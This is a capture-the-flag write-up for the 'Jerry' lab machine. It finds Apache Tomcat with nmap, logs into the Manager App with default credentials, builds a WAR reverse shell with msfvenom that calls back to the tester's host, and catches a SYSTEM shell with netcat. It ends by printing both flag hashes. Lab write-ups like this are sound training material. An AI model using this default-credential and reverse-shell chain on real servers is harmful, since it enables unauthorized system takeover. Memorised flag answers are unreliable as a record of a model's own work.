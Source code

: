 ```yaml
---
layout: post
title: Jerry
tags: [OSCP, Writeup, Windows, Arbitrary File Upload, Web, File Misconfiguration]
description: "Jerry write-up"
---
```


![Jerry logo](/assets/imgs/jerry/jerry.png)

### This is an easy windows box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA jerry 10.10.10.95 -v -Pn

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Here’s what nmap teaches us :

- port 8080 (HTTP) - Apache Tomcat 7.0.88

There is only one port open and it's a web port, let's check it :

![Tomcat interface](/assets/imgs/jerry/tomcat_interface.PNG)

This is a default Tomcat page, let's try to connect.

## Exploit

------

Click "Manager App", it asks for authentication :

![Authentication required](/assets/imgs/jerry/authentication_required.PNG)

Try default credentials :

- tomcat:tomcat - no
- admin:admin - no
- admin:password - no
- user:password - no
- tomcat:s3cret - yes

![Tomcat connected](/assets/imgs/jerry/connected.PNG)

I'm now connected nice ! Now that I'm connected, I can get a reverse shell thanks to "war upload" ([https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)). I used msfvenom to generate a reverse shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
```

Upload the war file :

![War deploy](/assets/imgs/jerry/war_deploy.PNG)

Start a nc listener :

```
nc -lvp 1234
```

Click on the '/shell' button, I'm redirected to this URL :

```
http://10.10.10.95:8080/shell/
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

And I'm already nt authority\system ! Now go read the flags, there both on the administrator desktop in one file :

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,649,088 bytes free
```

This box was too easy ! 

## Flags

------

### User.txt

```
7004dbcef0f854e0fb401875f26ebd00
```

### Root.txt

```
04a8b36e1545a455393d067e772fe90e
```